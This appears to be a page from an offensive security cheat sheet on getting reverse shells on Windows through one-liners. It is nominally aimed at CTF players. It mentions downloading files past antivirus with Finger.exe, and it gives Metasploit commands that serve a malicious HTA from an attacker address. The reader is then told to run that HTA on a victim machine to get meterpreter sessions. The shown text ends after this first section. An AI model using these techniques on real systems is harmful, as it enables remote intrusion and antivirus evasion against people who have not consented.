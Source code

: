 # Updates

| date | name | description | comment | link |
| --- | --- | --- | --- | --- |
| 09/2020 | Finger download | Download files on windows, bypassing AntiVirus, using Finger.exe | Alternative to certutils.exe | [jump](#finger) |

# Get Reverse-shell via Windows one-liner

This article will help those who play with CTF challenges because today we will discuss “Windows One-Liner” to use malicious commands such as PowerShell or rundll32 to get the reverse shell of the Windows system. Generally, while abusing HTTP services or other programs, we get RCE vulnerability. This loophole allows you to remotely execute any system command. We have therefore prepared a list of Windows commands that enable you to use the target machine to get reverse connections.

**Mshta.exe**

* Launch HTA attack via HTA Web Server of Metasploit

**Rundll32.exe**

* Launch Rundll32 Attack via SMB Delivery of Metasploit

**Regsvr32.exe**

* Launch Regsvr32 via Script Web Delivery of Metasploit

**Certutil.exe**

* Launch MSbuild Attack via Msfvenom C# shellcode

**Powershell.exe**

* Launch Powercat attack via Powershell
* Launch cscript.exe via Powershell
* Launch Batch File Attack via Powershell

**Msiexec.exe**

* Launch msiexec attack via msfvenom

**Wmic.exe**

* Launch Wmic.exe attack via Koadic

## Mshta.exe

Mshta.exe runs the Microsoft HTML Application Host, the Windows OS utility responsible for running HTA( HTML Application) files. HTML files that we can run JavaScript or VBScript with. You can interpret these files using the Microsoft MSHTA.exe tool.

Metasploit contain the “HTA Web Server” module which generates malicious hta file. This module hosts an HTML Application (HTA) that when opened will run a payload via Powershell. When a user navigates to the HTA file they will be prompted by IE twice before the payload is executed.

```
use exploit/windows/misc/hta_server
msf exploit(windows/misc/hta_server) > set srvhost 192.168.1.109
msf exploit(windows/misc/hta_server) > set lhost 192.168.1.109
msf exploit(windows/misc/hta_server) > exploit
```
Now run the malicious code through mshta.exe on the victim’s machine (vulnerable to RCE) to obtain meterpreter sessions.
